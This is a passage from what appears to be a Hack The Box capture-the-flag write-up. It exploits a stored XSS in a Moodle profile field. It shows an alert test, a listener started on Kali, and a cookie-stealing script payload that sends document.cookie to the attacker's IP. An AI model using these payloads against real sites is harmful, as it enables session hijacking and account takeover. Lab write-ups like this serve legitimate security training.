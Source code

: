 Let's test it by editing the user profile and putting something simple in the field like this:

```html
<script>alert("Hello From Pencer")</script>
```

![schooled-edit-profile](/assets/images/2021-09-21-22-45-42.png)

As soon as I click the update profile button at the bottom of the screen I get this pop up:

![schooled-xss](/assets/images/2021-09-21-22-47-36.png)

That worked, so I try the suggested cookie stealing XSS next. Start a web server listening:

```text
┌──(root💀kali)-[~/htb/schooled]
└─# python3 -m http.server 80                                                                                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

## Cookie Stealing

Change the XSS to my local Kali IP:

```html
<script>var i=new Image;i.src="http://10.10.14.227/xss.php?"+document.cookie;</script>
```

Enter the above in to the MoodleNet field on the user profile page again and click update. Switch to Kali to see we have captured session cookies:
